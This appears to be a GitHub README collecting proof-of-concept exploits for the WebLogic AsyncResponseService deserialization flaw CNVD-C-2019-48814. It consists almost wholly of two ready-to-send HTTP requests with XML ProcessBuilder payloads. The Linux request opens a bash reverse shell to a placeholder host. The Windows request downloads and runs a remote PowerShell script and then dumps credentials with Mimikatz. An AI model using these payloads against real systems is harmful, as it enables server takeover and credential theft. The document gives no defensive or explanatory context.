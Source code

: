 # CNVD-C-2019-48814
CNVD-C-2019-48814 POC 集合
1.Linux
"""
POST /_async/AsyncResponseService HTTP/1.1
Host: ip:port
Content-Length: 853
Accept-Encoding: gzip, deflate
SOAPAction: 
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/vpsip/vpsport 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
"""
2、Win
"""
POST /_async/AsyncResponseService HTTP/1.1
Host: ip:port
Content-Length: 861
Accept-Encoding: gzip, deflate
SOAPAction: 
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>cmd</string>
</void>
<void index="1">
<string>/c</string>
</void>
<void index="2">
<string>powershell "IEX (New-Object Net.WebClient).DownloadString('http://ip:port/payload.ps1'); Invoke-Mimikatz -DumpCreds"</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
"""
